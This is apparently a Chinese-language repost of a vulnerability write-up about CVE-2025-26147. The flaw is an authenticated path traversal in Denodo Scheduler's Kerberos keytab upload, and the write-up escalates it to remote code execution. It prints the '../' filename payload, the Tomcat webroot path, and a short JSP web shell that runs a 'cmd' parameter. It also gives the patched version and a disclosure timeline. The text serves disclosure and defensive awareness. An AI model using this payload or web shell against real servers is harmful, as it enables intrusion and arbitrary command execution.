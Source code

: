 #  CVE-2025-26147：Denodo Scheduler 中经过身份验证的 RCE   
 Ots安全   2025-05-22 11:41  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
介绍  
  
受影响产品摘要  
  
Denodo提供一系列逻辑数据管理软件。  
  
本博客重点介绍一款名为“Scheduler”的软件。Denodo Scheduler 可以调度和执行数据提取和集成作业。  
  
受影响产品摘要  
  
供应商：Denodo  
  
产品：Denodo Scheduler  
  
已确认易受攻击的版本：  v8.0.202309140  
  
修复版本：Denodo 8.0：denodo-v80-update-20240307  
  
Denodo Scheduler：基于时间的作业调度程序  
  
Denodo Scheduler 是一个用 Java 编写的 Web 应用程序。该 Web 应用程序包含管理功能，允许管理员配置服务器、数据库并指定身份验证形式。  
  
在 Scheduler 的身份验证设置中，管理员可以配置通过 Kerberos 进行身份验证。Kerberos 是一种网络身份验证协议，它使用票证和对称密钥加密技术，允许在不安全的网络上进行安全身份验证。Web 应用程序允许管理员上传“Keytab”文件。Kerberos中的Keytab （密钥表）文件用于存储服务主体凭据（加密密钥），无需密码即可进行身份验证。   
  
当使用 HTTP 代理拦截时，上传“Keytab”文件的 HTTP 请求是一个多部分表单数据 POST 请求。在“Content-Depsoition”HTTP 标头中，Web 应用程序分别发送表单名称“keyTabFile”和文件名“filename”。在“filename”属性的值中发现了路径遍历攻击漏洞。路径遍历攻击（也称为目录遍历）旨在访问存储在 Web 根文件夹之外的文件和目录。   
  
通过操纵引用带有“点-点-斜杠 (../)”序列及其变体的文件的变量，或使用绝对文件路径，攻击者可能能够访问存储在文件系统中的任意文件和目录。具体来说，对于 CVE-2025-26147 漏洞，Kerberos“Keytab”文件上传请求中的有效载荷允许恶意用户将文件上传到服务器文件系统中的（几乎）任何位置：  
  
```
filename=”../../../../opt/denodo/malicious.file.txt”
```  
  
  
然而，文件上传时，时间戳会被附加到文件名中。例如，如果上传了之前的“文件名”，则会在系统上创建以下文件：  
  
```
malicious.file-1711156561716.txt
```  
  
  
带有时间戳的文件名已通过 HTTP 响应提供给用户，无需猜测时间戳。但是，需要找到另一条远程代码执行路径。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tac6aoshSpKyOv2z82amNuGzM4UrpAicVoykDHopibJXcrT6qaSY4IhJsqrRLHdDSMsUY29CXiardbQCg/640?wx_fmt=webp&from=appmsg "")  
  
带有时间戳的文件名。  
升级到远程代码执行  
  
有了将任意文件写入文件系统的能力，现在是时候枚举文件系统来确定恶意文件在哪里影响最大，并希望导致代码执行。  
  
如前所述，该应用程序和部署环境均采用 Java 编写。具体来说，Web 服务器是 Apache Tomcat。   
  
Apache Tomcat （简称“Tomcat”）是一个免费开源的“纯Java”HTTP Web服务器环境实现，其中Java代码也可以运行。  
  
使用 Linux 命令行程序“find”和“grep”，在文件系统上发现了 Apache Tomcat Web 根目录。  
  
```
/path/to/webroot/resources/apache-tomcat/webapps/ROOT/
```  
  
  
下一步是创建 Java Web Shell。Java Web Shell（基于 JSP）是一种恶意或管理脚本，允许在运行 JavaServer Pages（JSP）的 Web 服务器上执行远程代码。  
  
下面是一个 Java Web Shell 的示例，执行时将运行提供给 GET HTTP 请求 URL 查询参数“cmd”的命令。  
  
```
< % String cmd = request.getParameter ( " cmd " ) ; if ( cmd ! = null ) { Process p = Runtime.getRuntime ( ) . exec ( cmd ) ;     java.io.InputStream is = p.getInputStream ( ) ; java.util.Scanner s = new java.util.Scanner ( is ) .useDelimiter (     " \\ A " ) ; String output = s.hasNext ( ) ? s.next ( ) : " " ; respond.getWriter ( ) . println ( output ) ; }     % >
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tac6aoshSpKyOv2z82amNuGziatZvU3g2KzibiawzSvnpe5GXUh0icIU5zEeatVqcT7skf7IF9NJGBnvmg/640?wx_fmt=webp&from=appmsg "")  
  
Java Web Shell 的示例。  
上传 Java Web Shell 后，用户可以通过访问该 Web Shell 来远程执行命令。下图显示了执行“id”命令的结果。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tac6aoshSpKyOv2z82amNuGzQDyTMtvFfj8wn4lsRpSCiceIms92b27jdPfxJ2mklcChVeU1aSvVc7Q/640?wx_fmt=webp&from=appmsg "")  
  
执行“id”命令的示例。  
  
  
结论  
  
本博客重点介绍了如何利用一个看似简单的漏洞升级实现远程代码执行，并强调了在所有软件开发中采用防御性编码方法的重要性，以确保最终用户服务的机密性、完整性和可用性。此漏洞由 John De Armas 和 Morgan Backus 发现。  
  
当我们向 Denodo 反映这些问题后，我们非常感谢他们迅速做出反应并进行处理。  
  
漏洞披露时间表  
  
2024年4月9日	        Rhino 向 Denodo 披露了该漏洞。  
  
2024年4月23日	 Denodo 收到并承认了该漏洞。  
  
2024年4月23日	 Denodo 发布了针对该漏洞的补丁。  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
